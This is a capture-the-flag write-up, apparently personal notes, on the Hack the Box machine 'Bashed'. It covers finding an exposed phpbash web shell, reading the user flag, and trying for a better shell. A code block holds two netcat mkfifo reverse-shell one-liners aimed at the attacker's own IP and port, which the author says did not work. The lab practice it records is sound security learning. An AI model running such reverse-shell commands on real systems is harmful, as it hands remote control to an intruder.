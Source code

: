 # Website

This website seems to be a promotional page for a replica bash shell written in PHP.

![[Pasted image 20210505083541.png]]

The links all point back to `index.html`

![[Pasted image 20210505085925.png]]

I also checked the source, but there were no hidden links and the form submission didn't go anywhere. It did mention PHP:

![[Pasted image 20210505090749.png]]

As the source and the site itself both mention php, I quickly checked if the `.php` extension was valid:

![[Pasted image 20210505085959.png]]

But it seemed the index page at least was running on pure HTML.

The blog post, dated in 2017, suggests that the web shell is available on the server, and even gives us a potential URL:

![[Pasted image 20210505090142.png]]

We can also see the source code at: [https://github.com/Arrexel/phpbash](https://github.com/Arrexel/phpbash). We'll come back to this if needed.

I tried the URL from the screenshot, but it was not found:

![[Pasted image 20210505090246.png]]

Neither was `/phpbash.php`.

## PHP Web Shell

I ran a [[Writeups/Hack the Box/Boxes/Bashed/5 - Enumeration#Gobuster|quick gobuster]] to check for potential directories for the script. It found `/php/` and `/dev/`. I tried `/php/phpbash.php`, and then `/dev/phpbash.php`, which worked:

![[Pasted image 20210505090543.png]]

I did some very quick enumeration, looking for users and quickly finding that `arrexel`'s home directory was world-readable. This gives us the user flag:

![[Pasted image 20210505091030.png]]

## Trying to Get a Reverse Shell

Before I enumerated more for priv esc, I wanted a better shell. I tried a few commands, to no avail:

![[Pasted image 20210505093721.png]]

I googled "netcat openbsd reverse shell" and tried the following commands:

```bash
www-data@bashed:/var/www/html/dev# rm /tmp/f;mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.13 9001 >/tmp/f

www-data@bashed:/var/www/html/dev# rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.13 9001 >/tmp/f
```

But I got no result.

I also tried the `upload` custom command mentioned in the source code, to no avail.

![[Pasted image 20210505101232.png]]

I decided to continue with enumeration and come back to this once I'd rooted the box and see if anyone had done it in a writeup. I would eventually upgrade my shell [[15 - Privesc]]